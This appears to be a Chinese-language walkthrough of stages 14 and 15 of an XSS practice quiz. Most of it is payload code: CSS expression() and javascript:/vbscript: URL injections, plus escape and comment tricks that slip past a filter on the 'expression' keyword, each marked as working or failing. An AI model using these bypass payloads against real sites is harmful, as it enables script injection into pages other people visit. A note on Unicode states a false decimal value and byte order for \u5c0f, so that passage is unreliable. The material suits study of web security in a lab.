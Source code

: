 (1)@import 和 expression<br>

```javascript
@import "http://web/xss.css"  
@import 'javascript:alert("xss")'  
body{xss:expression(alert('xss'))]  
<img style="xss:expression(alert('xss'))">  
```

(2)css代码中js，vs脚本

```javascript
body{backgroud-image:url(javascript:alert('xss'))}  
body{backgroud-image:url(vbscript:msgbox('xss'))} 
```

# 第十四关

>http://xss-quiz.int21h.jp/stage-_-14.php?sid=a31bf0d89239baebc366349049721215014871f8

>发现expression关键字被正则了！绕过**(IE8即以下！)**：<br>

1.编码绕过

```javascript
aa:\0065xpression(onfocus = function(){alert(document.domain)}) ERROR
```

2.`\` 绕过

```javascript
aa:e\xpression(onfocus = function(){alert(document.domain)}) ERROR
```

3.`\0` 绕过

```javascript
aa:e\0xpression(onfocus = function(){alert(document.domain)}) ok
```

4.`\**\`绕过
	

```javascript
aa:e\**\xpression(onfocus = function(){alert(document.domain)}) ERROR
```

5.`/**/`绕过
>好像是注解绕过

```javascript
aa:e/**/xpression(onfocus = function(){alert(document.domain)}) ok
```

  

**<font color="orange">`\uxxxx`这种格式是Unicode写法，表示一个字符，其中xxxx表示一个16进制数字，范围所0～65535. Unicode十六进制数只能包含数字0～9、大写字母A～F或者小写字母A～F。需要注意到是：Unicode的大小端问题，一般都是小端在前，例如 `\u5c0f` 表示汉语中的 '小'字，转换成10进制就是9215，所以在byte数组中应该是1592.</font>**

# 第十五关
>http://xss-quiz.int21h.jp/stage__15.php?sid=06dc6feab3cd2eb57a3f8a0de6be1bc57a2ccda1
